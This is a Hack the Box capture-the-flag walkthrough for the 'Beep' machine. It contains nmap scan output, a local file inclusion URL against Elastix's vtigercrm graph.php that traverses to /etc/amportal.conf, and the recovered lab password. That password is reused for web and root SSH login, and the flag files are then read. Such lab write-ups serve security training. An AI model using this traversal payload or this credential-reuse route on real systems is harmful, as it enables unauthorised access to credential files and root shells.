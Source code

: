# Beep - Hack the Box

## Scanning

Nmap Scan

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled.png)

nmap -p- 10.10.10.7 (Full port Scan)

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%201.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%201.png)

nmap -sV -A 10.10.10.7 (Service version scanning)

```jsx
root@kali:~# nmap -sV -A 10.10.10.7
Starting Nmap 7.80SVN ( https://nmap.org ) at 2020-09-17 10:41 EDT
Nmap scan report for 10.10.10.7
Host is up (0.22s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP IMPLEMENTATION(Cyrus POP3 server v2) UIDL APOP RESP-CODES PIPELINING STLS EXPIRE(NEVER) USER AUTH-RESP-CODE LOGIN-DELAY(0)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ATOMIC LIST-SUBSCRIBED MAILBOX-REFERRALS ID SORT IMAP4 URLAUTHA0001 THREAD=REFERENCES NO X-NETSCAPE OK STARTTLS RIGHTS=kxte LITERAL+ NAMESPACE CONDSTORE THREAD=ORDEREDSUBJECT LISTEXT IDLE CATENATE SORT=MODSEQ QUOTA ANNOTATEMORE BINARY IMAP4rev1 Completed ACL CHILDREN RENAME UNSELECT MULTIAPPEND UIDPLUS
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2020-09-17T14:48:07+00:00; +1m50s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80SVN%E=4%D=9/17%OT=22%CT=1%CU=33906%PV=Y%DS=2%DC=T%G=Y%TM=5F63
OS:7726%P=i686-pc-linux-gnu)SEQ(SP=CA%GCD=1%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=CA%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M
OS:54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A
OS:0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%
OS:CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W
OS:=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1m49s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   222.74 ms 10.10.14.1
2   222.96 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 379.29 seconds
root@kali:~#
```

## Enumeration

**Enumerating Web**

PORT 80

Browsing https://10.10.10.7/

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%202.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%202.png)

Elastix cms is vulnerable to local file inclusion

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%203.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%203.png)

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%204.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%204.png)

Browse [http://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action](http://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action) 

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%205.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%205.png)

This file consists of some username and password.

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%206.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%206.png)

Using credential admin and jEhdIekWmdjE to login in [https://10.10.10.7](https://10.10.10.7/)

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%207.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%207.png)

**Successfully Logged in

## Exploitation

Using password jEhdIekWmdjE to login using ssh as root user.

Command – **ssh [root@10.10.10.7](mailto:root@10.10.10.7)**

**Password-**  jEhdIekWmdjE

**Successfully got shell of root user.

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%208.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%208.png)

**cd /home/fanis**

**cat user.txt**

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%209.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%209.png)

**cd /root**

**cat root.txt**

![Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%208.png](Beep%202d979aa2e6674b1c8e02e7e6f188c5d8/Untitled%208.png)
